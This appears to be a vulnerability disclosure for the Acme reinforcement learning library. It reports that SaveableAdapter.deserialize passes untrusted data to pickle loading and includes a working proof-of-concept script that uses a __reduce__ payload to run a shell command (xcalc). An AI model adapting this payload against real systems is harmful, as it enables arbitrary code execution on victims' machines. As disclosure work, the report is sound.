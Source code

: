 # Description

Acme is a library of reinforcement learning (RL) agents and agent building blocks. Acme strives to expose simple, efficient, and readable agents, that serve both as reference implementations of popular algorithms and as strong baselines, while still providing enough flexibility to do novel research. The design of Acme also attempts to provide multiple points of entry to the RL problem at differing levels of complexity.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```python
import os
import pickle
#os.system('pip3 install dm-acme')
#os.system('pip3 install dm-sonnet')
from acme.tf import savers
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#Exploiting
pickled = pickle.dumps(ArbitraryCode())
savers.SaveableAdapter.deserialize('hehe',pickled)
```
* `pip3 install dm-acme`
* `python3 exploit.py`
